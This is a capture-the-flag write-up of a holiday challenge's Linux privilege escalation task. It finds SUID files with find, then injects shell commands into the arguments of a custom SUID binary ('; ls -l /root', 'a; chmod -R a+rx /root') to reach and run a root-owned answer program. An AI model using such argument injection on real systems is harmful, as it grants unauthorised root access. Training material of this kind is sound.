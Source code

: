 # Objective 7: Linux PrivEsc
**Location: Island of Misfit Toys: Ostrich Saloon**  

The objective is to perform a privilege escalation in a Linux terminal session. Finally the binary residing in `/root` has to be executed.
The first approach is to find `suid` files on the file system:
```
elf@745490537a8a:~$ find / -perm -4000 -ls 2>/dev/null
1312417 84 -rwsr-xr-x 1 root root 85064 Nov 29 2022 /usr/bin/chfn
1312423 52 -rwsr-xr-x 1 root root 53040 Nov 29 2022 /usr/bin/chsh
1312541 56 -rwsr-xr-x 1 root root 55528 May 30 2023 /usr/bin/mount
1312546 44 -rwsr-xr-x 1 root root 44784 Nov 29 2022 /usr/bin/newgrp
1312620 68 -rwsr-xr-x 1 root root 67816 May 30 2023 /usr/bin/su
1312484 88 -rwsr-xr-x 1 root root 88464 Nov 29 2022 /usr/bin/gpasswd
1312645 40 -rwsr-xr-x 1 root root 39144 May 30 2023 /usr/bin/umount
1312557 68 -rwsr-xr-x 1 root root 68208 Nov 29 2022 /usr/bin/passwd
1457015 20 -rwsr-xr-x 1 root root 16952 Dec 2 22:17 /usr/bin/simplecopy
```

`simplecopy` looks promising as this does usually not exist on Linux systems.

Invoking this binary with some test arguments show interesting error messages and reveals the name of the binary in `/root`:
```
elf@745490537a8a:~$ simplecopy "; ls -l /root" b
cp: missing file operand
Try 'cp --help' for more information.
ls: cannot access 'b': No such file or directory
/root:
total 600
-rws------ 1 root root 612560 Nov 9 21:29 runmetoanswer
```

So it seems that it is possible to inject shell commands in the arguments. We use this to add read and execute permissions to `/root` and `/root/runmetoanswer`:
```
elf@745490537a8a:~$ simplecopy "a; chmod -R a+rx /root" b
cp: missing destination file operand after 'a'
Try 'cp --help' for more information.
chmod: cannot access 'b': No such file or directory
elf@745490537a8a:~$ ls -l /root
total 600
-rwsr-xr-x 1 root root 612560 Nov 9 21:29 runmetoanswer
elf@745490537a8a:~$ /root/runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```


**Achievement: Linux PrivEsc**
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTYxOTUyMDY3MSwtODI2MTc4Njg0LC0yMD
EwMTkyNjNdfQ==
-->